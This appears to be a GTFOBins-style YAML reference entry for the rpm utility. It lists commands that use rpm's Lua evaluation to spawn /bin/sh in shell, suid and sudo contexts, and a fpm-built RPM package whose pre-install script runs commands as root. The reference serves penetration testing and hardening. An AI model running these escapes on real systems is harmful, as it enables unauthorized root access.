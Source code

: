 ```yaml
---
functions:
  shell:
    - description: |
        From rpm versions 4.9.0 and on, posix.exec() will return an error unless called from a child process created with posix.fork(). os.execute() may be used instead.
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

